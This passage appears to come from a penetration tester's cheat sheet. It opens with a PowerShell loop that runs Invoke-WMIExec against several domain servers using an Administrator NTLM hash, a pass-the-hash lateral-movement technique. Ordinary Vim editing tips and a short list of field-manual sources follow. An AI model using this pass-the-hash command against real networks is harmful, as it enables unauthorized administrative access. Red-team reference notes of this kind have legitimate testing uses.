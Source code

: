 ```powershell
$hosts = @("SVDC1.LAZULI.CORP","SVFILES.LAZULI.CORP","SVHOST1.LAZULI.CORP","SVHOST2.LAZULI.CORP","SVFILES2.LAZULI.CORP")

foreach ($h in $hosts){ Invoke-WMIExec -Target $h -Username Administrator -Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "hostname" -Verbose }
```


## (n)Vim tricks

Remove blank lines:

```
:g/^$/d
```

Remove return carriage:

```
%s/^M//g
```

Replace something:

```
%s/origin/destination/g
```

Sort lines:

```
CTRL-V and select lines or do ggVG
:sort

For invert sort:
:%sort!

For numerical sort:
:sort n
```

Delete duplicated lines:

```
:g/^\(.*\)$\n\1/d
```

# Sources

## Books

* Red Team Field Manual
* Blue Team Field Manual

## Website
